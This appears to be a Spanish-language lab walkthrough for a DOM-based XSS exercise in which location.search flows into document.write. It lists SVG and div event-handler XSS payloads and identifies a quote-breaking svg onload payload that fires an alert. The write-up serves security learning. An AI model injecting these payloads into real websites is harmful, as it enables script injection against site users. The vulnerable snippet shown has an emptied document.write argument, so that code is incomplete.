


# DOM XSS in `document.write` sink using source `location.search`

Viendo el código fuente podemos encontrar el siguiente script:

```c
function trackSearch(query) {
  document.write('');
  }
  
var query = (new URLSearchParams(window.location.search)).get('search');

if(query) {
  trackSearch(query);
  }
```

Podemos ayudarnos de los siguientes payloads para poder llegar a explotarlos

```c
// Svg payload
<svgonload=alert(1)>
<svg/onload=alert('XSS')>
<svg onload=alert(1)//
<svg/onload=alert(String.fromCharCode(88,83,83))>
<svg id=alert(1) onload=eval(id)>
"><svg/onload=alert(String.fromCharCode(88,83,83))>
"><svg/onload=alert(/XSS/)
<svg><script href=data:,alert(1) />(`Firefox` is the only browser which allows self closing script)
<svg><script>alert('33')
<svg><script>alert&lpar;'33'&rpar;

// Div payload
<div onpointerover="alert(45)">MOVE HERE</div>
<div onpointerdown="alert(45)">MOVE HERE</div>
<div onpointerenter="alert(45)">MOVE HERE</div>
<div onpointerleave="alert(45)">MOVE HERE</div>
<div onpointermove="alert(45)">MOVE HERE</div>
<div onpointerout="alert(45)">MOVE HERE</div>
<div onpointerup="alert(45)">MOVE HERE</div>
```

El payload que funciona es:

```c
"><svg onload=alert('XSS')>
```

Ingresamos en el campo vulnerable



Enviamos y podremos explotar la vulnerabilidad



